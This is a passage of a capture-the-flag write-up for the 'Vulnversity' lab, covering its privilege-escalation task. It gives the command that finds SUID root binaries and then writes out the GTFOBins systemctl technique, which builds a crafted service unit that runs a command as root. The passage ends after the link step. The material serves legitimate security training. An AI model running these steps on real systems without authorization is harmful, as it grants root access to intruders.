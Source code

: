<img src="images/01.Vulnversity/13.png" height="200">

## Task 4

Now run to find SUID files with root permission.

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

<img src="images/01.Vulnversity/14.png" height="200">

We found some interesting files. Of them, /bin/systemctl is running as root.

Head to https://gtfobins.github.io/gtfobins/systemctl/#suid.

We will try to follow that to check whether it will work or not.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```

```
./systemctl link $TF
```
